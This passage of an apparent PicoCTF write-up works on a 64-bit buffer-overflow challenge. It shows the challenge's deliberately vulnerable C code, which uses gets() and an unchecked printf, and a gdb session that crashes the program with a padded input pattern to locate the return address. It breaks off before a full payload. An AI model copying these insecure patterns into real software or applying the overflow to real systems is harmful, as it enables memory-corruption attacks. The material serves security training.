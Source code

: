 ```
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }
  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }
}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }
  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){
  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}
```

Seems like the usual PicoCTF Overflow problems that we are used to. Pass in some input into a buffer and the program exits.

This time however there are three functions, `win_fn1()`, `win_fn2()`, and `win_fn()`.

If we were to follow the execution of the program, we need to pass in `0xDEADBEEF` for `win_fn1()` and `0xBAADCAFE` or `0xCAFEBABE` or `0xABADBABE` to `win_fn2()`.

`win_fn()` seems to print the flag if the arguments are correct and we'd need to somehow provide the arguments in the input buffer. But I'm not sure why that's necessary if we could just jump to flag.


```
samson@pico-2019-shell1:/problems/newoverflow-2_6$ gdb ./vuln
... <redacted>
(gdb) r < <(python -c 'print("A"*64+"B"*4+"C"*4+"D"*4+"E"*4+"F"*4+"G"*4+"H"*4+"I"*4)')
Starting program: /problems/newoverflow-2_6/vuln < <(python -c 'print("A"*64+"B"*4+"C"*4+"D"*4+"E"*4+"F"*4+"G"*4+"H"*4+"I"*4)')
Welcome to 64-bit. Can you match these numbers?

Program received signal SIGSEGV, Segmentation fault.
0x00000000004008cd in vuln ()
(gdb) x/i $pc
=> 0x4008cd <vuln+27>:  retq   
(gdb) disas flag
Dump of assembler code for function flag:
```
